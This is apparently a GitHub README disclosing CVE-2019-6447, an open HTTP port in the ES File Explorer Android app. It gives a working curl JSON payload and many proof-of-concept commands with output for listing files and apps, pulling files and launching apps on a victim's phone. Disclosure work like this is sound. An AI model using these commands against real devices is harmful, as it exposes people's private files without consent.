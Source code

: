 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES File Explorer (File Manager) is a full-featured file (Images, Music, Movies, Documents, app) manager for both local and networked use! With over 500 million users worldwide, ES File Explorer (File Manager) helps manage your android phone and files efficiently and effectively and share files without data cost.

Everytime a user is launching the app, a HTTP server is started. This server is opening locally the port 59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

On this port, an attacker can send a JSON payload to the target
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

These commands allow an attacker **connected on the same local network than the victim**, to obtain a lot of juicy information (device info, app installed, ...) about the victim's phone, **remotely get a file** from the victim's phone and **remotely launch an app** on the victim's phone.

## Affected Versions
4.1.9.5.2 and below

## POC Features
With the following Proof Of Concept (POC), you can:
- List all the files in the sdcard in the victim device
- List all the pictures in the victim device
- List all the videos in the victim device
- List all the audio files in the victim device
- List all the apps installed in the victim device
- List all the system apps installed in the victim device
- List all the phone apps installed in the victim device
- List all the apk files stored in the sdcard of the victim device
- List all the apps installed in the victim device
- Get device info of the victim device
- Pull a file from the victim device
- Launch an app of your choice
- Get the icon of an app of your choice

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info
appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is neededs
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip, the investigation and the POC has been made with ❤️ by @fs0c131y
